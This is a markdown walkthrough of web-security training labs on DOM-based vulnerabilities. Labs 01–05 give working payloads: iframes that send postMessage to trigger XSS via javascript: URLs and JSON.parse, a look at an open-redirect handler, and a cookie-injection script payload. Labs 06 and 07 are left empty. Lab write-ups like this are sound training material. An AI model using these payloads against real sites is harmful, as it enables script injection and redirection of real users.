

# Dom Based Vulnerabilities - Walkthroughs

## Lab 01: DOM XSS using web messages

Target Goal - Exploit DOM based XSS vulnerability to call the print() function.

## Analysis

<iframe src="https://0ad50028030bfb4d8003768b004c002d.web-security-academy.net/" onload="this.contentWindow.postMessage('', '*')">

---

## Lab 02: DOM XSS using web messages and a JavaScript URL

Target Goal - Exploit DOM based XSS vulnerability to call the print function.

## Analysis

<iframe src="https://0a540060031e973e80f3264d00fc00b8.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:', '*')">

---

## Lab 03: DOM XSS using web messages and JSON.parse

Target Goal - Exploit DOM based XSS vulnerability to call the print() function.

## Analysis

<iframe src="https://0a1100160422108f8297609f00c40066.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\": \"load-channel\", \"url\": \"javascript:print()\"}", "*")' >

---

## Lab 04: DOM-based open redirection

Target Goal - Exploit the DOM-based open redirection vulnerability to redirect the victim to the exploit server.

## Analysis

<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>

returnUrl = /url=(https?:\/\/.+)/.exec(location);
if(returnUrl)
    location.href = returnUrl[1];
else 
    location.href = "/"

url=http(s)://

---

## Lab 05: DOM-based cookie manipulation

Target Goal - Inject a malicious cookie in the application that exploits an XSS vulnerability and calls the print() function.

## Analysis

<a href='https://0a22008004f2fc9a82bf8ab6002b00f3.web-security-academy.net/product?productId=1'>Last viewed product</a>

<iframe src="https://0a22008004f2fc9a82bf8ab6002b00f3.web-security-academy.net/product?productId=1&'>" onload="this.src='https://0a22008004f2fc9a82bf8ab6002b00f3.web-security-academy.net/'">

https://0a22008004f2fc9a82bf8ab6002b00f3.web-security-academy.net/product?productId=1&'>

https://0a22008004f2fc9a82bf8ab6002b00f3.web-security-academy.net/product?productId=1&%27%3E%3Cscript%3Eprint()%3C/script%3E

---

## Lab 06: Exploiting DOM clobbering to enable XSS

Target Goal - Exploit DOM clobbering in comment functionality to perform an XSS attack and call the alert function.

## Analysis

---

## Lab 07: Clobbering DOM attributes to bypass HTML filters

Target Goal - Exploit the DOM clobbering vulnerability in the HTMLJanitor library and call the print function.

## Analysis

---

